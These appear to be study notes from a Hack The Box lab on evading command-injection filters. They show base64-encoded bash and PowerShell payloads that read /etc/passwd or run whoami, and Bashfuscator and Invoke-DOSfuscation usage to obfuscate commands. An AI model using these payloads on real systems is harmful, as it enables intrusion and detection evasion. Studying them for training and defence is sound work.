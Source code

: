 ```powershell
```

### Encoded Commands
#### Linux 
Base64 or xxd encode commands 
```shell
echo -n 'cat /etc/passwd | grep 33' | base64
```
Burp Request 
```shell
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Combine with other filtering if `bash` or `base64` is banned
#### Windows
```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
## Evasion Tools
### Linux
#### Bashfuscator
```shell
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
python3 setup.py install --user
```

```shell
cd ./bashfuscator/bin/

./bashfuscator -h
```
Randomly picks a payload
```shell
./bashfuscator -c 'cat /etc/passwd'
```
Flags can make it simpler
```shell
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```
Execute with `bash -c`

#### Windows (DOSfuscation)
[Link](about:blank)
```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt

Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```
